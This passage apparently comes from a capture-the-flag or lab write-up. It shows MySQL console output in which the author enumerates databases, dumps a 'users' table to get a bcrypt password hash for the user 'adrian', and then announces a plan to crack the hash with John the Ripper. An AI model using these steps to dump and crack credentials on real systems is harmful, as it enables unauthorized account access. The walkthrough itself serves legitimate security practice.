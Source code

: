 ```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.098 sec)

```

`use website;`
```
MySQL [(none)]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`show tables;`
```
MySQL [website]> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.090 sec)
```

`select * from users;`
```
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.096 sec)

```
Excellent! We've found some user credentials, including a hashed password -`adrian:$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we`. Let's try to crack it with John the Ripper.
